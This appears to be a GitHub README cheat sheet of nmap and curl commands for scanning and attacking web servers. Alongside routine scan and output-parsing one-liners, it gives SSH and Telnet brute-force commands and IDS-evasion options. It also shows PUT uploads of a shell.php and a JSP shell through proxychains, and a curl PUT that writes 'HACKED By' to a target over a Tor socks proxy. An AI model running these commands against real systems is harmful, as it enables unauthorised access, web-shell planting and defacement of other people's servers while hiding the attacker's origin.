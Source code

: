 # <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Nmap 
##### &#x1F538; options:
    #(OPTION): -P0 |-> skip ping
    #(OPTION): -iL list.txt |-> to scan file with ips websites
    #(OPTION): -T0 / or / -T1 |-> avoid IDS detection firewall
    #(OPTION): -oG scan.txt |-> Grepable output
    #(OPTION): -sW |-> TCP windows port scan
    #(OPTION): -sS / -sT / -sU / -sA / -sM |-> TCP SYN - TCP port - UDP - TCP ACK - TCP Maimon port
    #(OPTION): -sL |-> No scan list targets only
    #(OPTION): -sn |-> disable port scan
    #(OPTION): -Pn |-> disable host - port only
    #(OPTION): -n |-> never do dns resolution

##### &#x1F538; xml.out to use php insert :
    - sudo nmap -d -sV -Pn -F -sS -n -O -A --script=default,external,ssl-heartbleed --script-args shodan-api.apikey=api-Key-Here -oX out.xml <TARGET>

##### &#x1F538; Supported Methods: GET HEAD POST OPTIONS :
    nmap -script http-methods -p443 -script-args http-methods.url-path='/' <TARGET>

##### &#x1F538;  SSH Brute Cmd : 
    nmap -p 22 --script ssh-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt --script-args ssh-brute.timeout=4s <TARGET>

##### &#x1F538;  Telnet Brute Cmd : 
    nmap -p 23 --script telnet-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt,telnet-brute.timeout=8s <TARGET>

##### &#x1F538;  Put method : 
    nmap -script http-put -script-args http-put.url='/shell.php',http-put.file='/shell.txt' -p 80 <TARGET>

#### &#x1F538; Print options : 

    #print ip + website
      nmap -p80 -Pn -oG - <TARGET>/24 | awk '/open/{print $2 " " $3}'

    #print ip + port open
      nmap -vv <TARGET>/24  | awk -F'[ /]' '/Discovered open port/{print $NF":"$4}'

    #print websites only
      nmap -sL -oG - <TARGET>/24 | awk '$3~/\(.+\)/{print $3}' | tr -d '()'

    #print ip only using port 22
      nmap -n -sn -PS22 -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

    #print IP addresses that are up
      nmap -n -sn -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

#### &#x1F538; Domains : 
    nmap --script=dns-brute.nse <TARGET>
    nmap --script=auth <TARGET>
    nmap --script=default <TARGET>
    nmap -Pn --script=vuln <TARGET>
    nmap -n -p445 --script=broadcast <TARGET>
    nmap --script external <TARGET>
    nmap -p 53 --script dns-zone-transfer.nse -v <TARGET>
    nmap -Pn -sV --script=vulners <TARGET>
    nmap --script http-methods --script-args http-methods.url-path='/' <TARGET>
    nmap -p 80 --script dns-brute.nse <TARGET>
    nmap -sV --script=vulscan/vulscan.nse <TARGET>
    nmap -O --script external -oX out.xml <TARGET>
    nmap -d --script ssl-heartbleed --script-args vulns.showall -sV <TARGET> -oX s.xml
    sudo nmap -PN -F -O -A --script=default,external,ssl-heartbleed -sV -oX targetoutput.xml -d <TARGET>
    nmap -sV --script ./sourcfile.nse <TARGET>
    nmap -sV --script http-sec-headers.nse <TARGET>
    nmap -F --script icap-info <TARGET>
    nmap --script=http-enum -p80 -n 
    nmap -p 1344 --script icap-info <TARGET>
    nmap -sn -Pn --script hostmap-crtsh <TARGET>
    
    
# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Curl : 

##### &#x1F538; print server name using curl
`curl -i -v --url <TARGET> 2> /dev/null | grep Server`

##### &#x1F538; SCAN 443 With Curl
`curl -insecure -v -X OPTIONS <TARGET>`
    
##### &#x1F538; Curl Injection :     
`curl -v --header "X-CustomHeader: SQLi" --cookie "Set-Cookie:SQLi" --user-agent "User-Agent: SQLi" -H "Accept: application/json-SQLi" -H "Set-Cookie: SQLi"\"  <TARGET>`
    
##### &#x1F538; PUT FILE WITH Curl :
`curl -i -X PUT -H "Content-Type: text/plain; charset=utf-8" -d "HACKED By" <TARGET>/x.php --socks5 127.0.0.1:9050`

##### &#x1F538; AnyCMD:
    #Bypass : `curl --resolve www.DOMAIN.com:80:127.0.0.1 <TARGET>`
    #http Status : `curl -sL -w "%{http_code}\n" "<TARGET/DOMAIN>" -o /dev/null`
    
##### &#x1F538; Requested Range Not Stisfiable vulnerable : 
    curl -v <TARGET> -H "Host: <TARGET>" -H "Range: bytes=0-18446744073709551615" -k
   
   #Turn WiFi OFF : `nmcli radio wifi off` &#x274C;
   
   #Turn WiFi ON : `nmcli radio wifi on` &#x2714;
   
##### &#x1F538; generate shell as js or jsp and use terminal to upload to the target:  

`proxychains curl -X PUT <TARGET>:79/admin/js.jsp -d @- < /opt/shell.js`

 
    
